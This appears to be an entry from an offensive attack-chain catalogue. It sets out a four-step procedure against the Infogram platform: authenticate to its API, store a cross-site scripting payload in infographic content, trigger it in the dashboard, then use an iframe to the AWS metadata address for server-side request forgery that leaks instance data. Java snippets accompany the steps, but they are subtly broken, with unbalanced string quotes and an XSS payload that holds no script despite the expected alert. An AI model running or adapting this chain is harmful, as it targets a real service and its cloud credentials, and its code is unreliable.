

---
id: ac-uuid-001
name: Stored XSS in Infogram API Leading to JavaScript Execution and AWS Metadata Leak via SSRF
type: attack_chain
description: A multi-stage attack exploiting a stored XSS vulnerability in Infogram's API to inject malicious JavaScript, execute it in the dashboard, and chain to SSRF for leaking AWS instance metadata.
verified: false
submitted: false
step_count: 4
created_at: 2023-10-01T00:00:00Z
updated_at: 2023-10-01T00:00:00Z
procedures: [[procedures/Authenticate-and-Configure-Infogram-API-Access]], [[procedures/Inject-Stored-XSS-Payload-into-Infographic-Content]], [[procedures/Verify-XSS-Execution-in-Dashboard]], [[procedures/Inject-SSRF-Payload-for-AWS-Metadata-Leak]]
techniques: [[JavaScript]], [[Exploit Public-Facing Application]]
tactics: [[Execution]], [[Discovery]]
tags: xss, stored-xss, ssrf, aws, metadata-leak, infogram
platforms: Web, AWS
tools: [[tools/Infogram-Java-Library]]
---

# Stored XSS in Infogram API Leading to JavaScript Execution and AWS Metadata Leak via SSRF

Multi-stage attack chain demonstrating a complete attack workflow exploiting stored XSS in Infogram's graph creation API, leading to arbitrary JavaScript execution and chained SSRF for internal AWS metadata exfiltration.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Infogram-Java-Library]]

### Target Environment

- Infogram web platform (https://infogram.com)
- AWS-hosted services for preview rendering
- Java development environment (JDK 8+)

### Initial Access Requirements

- Valid Infogram account credentials
- API Key and Secret from Infogram settings
- Network access to Infogram API endpoints

## Detailed Attack Procedures

### Step 1: API Authentication and Setup
procedure: [[procedures/Authenticate-and-Configure-Infogram-API-Access]]

**Objective**: Gain authenticated access to Infogram's API using official credentials to prepare for payload injection.

**Instructions**: Log in to your Infogram account, navigate to API settings at https://infogram.com/app/#settings/api, and retrieve your API Key and Secret. Download the Infogram Java Library from https://developers.infogr.am/rest/. Configure the library in a Java application by instantiating `InfogramAPI` with your credentials:

```java
InfogramAPI infogram = new InfogramAPI("your-api-key", "your-api-secret");
```

**Expected Output**: Successful API client initialization without errors.

**Success Indicators**:
- API credentials retrieved
- Java library imported and configured

### Step 2: Inject XSS Payload
procedure: [[procedures/Inject-Stored-XSS-Payload-into-Infographic-Content]]

**Objective**: Create an infographic via API with a malicious 'content' parameter containing unsanitized HTML/JavaScript to store XSS payload.

**Instructions**: Prepare a HashMap with parameters including the XSS payload in the 'content' field. Set theme_id to 7291, title to a placeholder, and publish settings. Use the API to send a POST request to /infographics:

```java
HashMap<String, String> parameters = new HashMap<>();
parameters.put("content", "[{\"type\":\"h1\",\"text\":\"asd>\\\"\' \"}]);
parameters.put("theme_id", "7291");
parameters.put("title", "title");
parameters.put("publish", "true");
parameters.put("publish_mode", "public");
infogram.sendRequest("POST", "infographics", parameters);
```

**Expected Output**: HTTP 201 response indicating successful infographic creation.

**Success Indicators**:
- Infographic ID returned in response
- No validation errors on payload

### Step 3: Execute and Verify XSS
procedure: [[procedures/Verify-XSS-Execution-in-Dashboard]]

**Objective**: View the created infographic in the dashboard to trigger JavaScript execution from the stored XSS.

**Instructions**: Navigate to the Infogram dashboard at https://infogram.com/app/#/library, locate the new infographic by title, and open it. The payload should execute automatically upon rendering.

**Expected Output**: Alert popup displaying the document domain (e.g., infogram.com).

**Success Indicators**:
- JavaScript alert triggers
- Confirmation of arbitrary code execution in viewer's browser

### Step 4: Chain to SSRF for Metadata Leak
procedure: [[procedures/Inject-SSRF-Payload-for-AWS-Metadata-Leak]]

**Objective**: Modify the payload to include an iframe targeting internal AWS metadata endpoint, then observe leak in server-side rendered preview.

**Instructions**: Update the 'content' parameter with an iframe src pointing to http://169.254.169.254/latest/meta-data/. Repeat the API POST from Step 2 to create a new infographic. View the preview in the dashboard library.

```java
parameters.put("content", "[{\"type\":\"h1\",\"text\":\"asd>\\\"\' <iframe src=http://169.254.169.254/latest/meta-data/></iframe>\"}]);
infogram.sendRequest("POST", "infographics", parameters);
```

**Expected Output**: Preview image in dashboard renders the iframe content, displaying AWS metadata like instance ID or credentials.

**Success Indicators**:
- Internal metadata visible in preview
- Confirmation of SSRF via server-side rendering

## Attack Chain Summary

### Key Achievements

1. Stored unsanitized XSS payload via API for persistent JavaScript execution
2. Achieved arbitrary code execution in authenticated user sessions
3. Chained to SSRF exposing internal AWS metadata through preview rendering

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Discovery]]

---
*Last updated: 2023-10-01T00:00:00Z*
